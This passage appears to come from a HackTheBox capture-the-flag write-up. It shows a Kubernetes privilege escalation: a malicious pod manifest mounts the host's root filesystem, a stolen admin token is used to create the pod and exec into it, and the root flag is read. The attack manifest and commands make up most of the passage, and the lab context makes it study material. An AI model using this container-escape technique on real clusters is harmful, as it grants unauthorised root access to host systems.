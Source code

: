 
## Buidling a malicious-pod.yaml
### attackpod.yaml
```yaml
apiVersion: v1
kind: Pod
metadata:
  labels:
    run: attacker-pod
  name: attacker-pod
  namespace: default
spec:
  volumes:
  - name: host-fs
    hostPath:
      path: /
  containers:
  - image: localhost:5000/node_server
    imagePullPolicy: Always
    name: attacker-pod
    volumeMounts:
      - name: host-fs
        mountPath: /root
  restartPolicy: Never
root@kali:~/Desktop/htb/
  ```
  - `Kind: Pod` - The type of resource we are creating is a pod
  - `apiVersion: v1` For a Pod the apiVersion must be v1 ( Check documentation)
  - `run: attacker-pod` - It is a key-value pair ( label) which can be used to identify this pod
  - `namespace: default` - The namespace on which this pod is created
  - `image: localhost:5000/node_server` - Image used for docker container
  -  `hostpath:` With hostPath volume type, we can mount a directory from the host into the pod and in our case we want to mount root partition( `/`) of the host.
  -  `volumeMounts:` can be used define where to mount the root partition of the host.
  -  `mountPath: /root` - We are mounting the `/` of host into our `/root` directory. 
  
### Creating a new pod
```console
root@devnode-deployment-cd86fb5c-qlxww:~# ./ctlkube.new --token=`cat c-admin.token` apply -f attack.yaml
pod/attacker-pod created 
```

### Getting a shell in the pod
```console
root@devnode-deployment-cd86fb5c-qlxww:~# ./ctlkube.new --token=`cat c-admin.token` -n default exec attacker-pod -it -- /bin/sh
# id                      
uid=0(root) gid=0(root) groups=0(root)
```

## Reading the root flag
```console
# cd root                 
# ls                       
pod_cleanup.py  root.txt 
# cat root.txt           
287da**************a726bb
```

  
